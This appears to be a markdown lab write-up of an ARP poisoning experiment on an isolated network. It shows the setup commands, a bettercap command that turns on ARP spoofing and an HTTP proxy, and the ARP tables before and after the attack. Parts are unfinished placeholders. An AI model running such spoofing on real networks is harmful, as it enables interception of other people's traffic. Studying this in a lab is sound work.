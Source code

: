Introduction
------------

The goal of this expirement is to demonstrate how ARP posioning changes values
inside of the ARP table attacked devices.

Expiremental Setup
------------------
Inside of an isolated unmanaged network, an attacker performing an ARP spoofing
attack, man in the middles http requests to a website running on a device in the 
local network.

- 1 Netgear Max Unmanaged Switch
- 2 Raspberry Pi 3 running Raspbian-Stretch (v4.14)
- 1 Lenovo T480 running Monopticon v0.1.1 (deadbeef) and Bettercap v2.22

### Network Design

The photo below shows the yellow ethernet cables

The addresses are statically shown below in the diagram.

Initial Setup
-------------

# Cocco
```zsh
> sudo apt install vim tmux nginx
# changed hostname
# enabled ssh
> enable sshd w/ password
> sudo vim /etc/dhcpdc.conf
# static 10.0.0.3
> wget -r https://soapbox.nskelsey.com --convert-links
> systemctl enable nginx
> cp -fr soapbox.nskelsey.com/* /var/www/html/
```

# Bruno
```zsh
> sudo apt install vim tmux
> enable sshd w/ password
# idem w/o nginx
```


### Normal ARP Table
```
10.0.0.2 b8:27:eb:71:b2:3e # Bruno
10.0.0.3 cc:cc: # Cocco
         aa:aa: # Attacker
```

### Poisioning machine

```zsh
> ip address add dev enp0s31f6 10.0.0.1/24

> sudo su
> /home/synnick/go/bin/bettercap -iface enp0s31f6 -eval 'net.recon on; http.proxy on; arp.spoof on; ticker on;'
```


After Poisioning
----------------

ARP Table of Bruno
```
10.0.0.3 aa:aa: # Attacker
```

ARP Table of Cocco
```
10.0.0.2 aa:aa: # Attacker
```

[img](src)


### Attack Results

As shown the once the Lenovo machine starts broadcasting IP addresses

[img](src)
